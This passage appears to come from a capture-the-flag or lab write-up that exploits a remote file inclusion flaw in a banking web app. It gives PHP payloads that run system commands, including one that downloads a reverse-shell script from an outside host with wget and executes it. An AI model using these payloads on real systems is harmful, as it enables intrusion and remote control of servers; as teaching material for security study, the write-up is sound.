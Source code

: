 Outstanding! Now we have some DB creds for the MySQL instance. We also have the name of the database currently being queried: HarborBankUsers. We'll keep this in mind for a later time. At this point, I'm interested in seeing what we can include/how we can abuse this inclusion remotely. So far it seems the inclusion will add the php extension to the various pages we browse, and we're only allowed to include something that matches the following filenames: welcome, balance, transfer, account, about, and logout. For us to get a shell we'll need to get crafty by naming our page within those allowed filenames, and find a command sequence that will result in a shell. 

# Container 1 - Shell

Let's set up a simple shell to see if we can get some RCE.

```php
<?php
echo "<pre>";
echo system("hostname; id");
echo "</pre>";
?>
```

We'll save this as about.php, and host it with python in another terminal session. 

```bash
python -m SimpleHTTPServer 80
```

We risk executing php on our own system if we use the apache2 service on Kali...we don't want that. Remember, we suspect the application already adds the .php extension to includes, so we don't need to add it or use null-bytes or anything fancy. Just include

> http://OUR_URL/about

![screenshot](/assets/images/safeharbor/bank_rfi4.PNG)

Righteous. Now we have RCE on the container. Let's get a real shell by copying over the pentestmonkey script, and changing the IP & PORT variables to our environment. We'll also need to make a small change to our about.php file:

```php
<?php
echo "<pre>";
echo system("wget http://200.0.12.102/shell.php -O /var/tmp/shell.php; php /var/tmp/shell.php");
echo "</pre>";
?>
```

![screenshot](/assets/images/safeharbor/bank_rfi5.PNG)
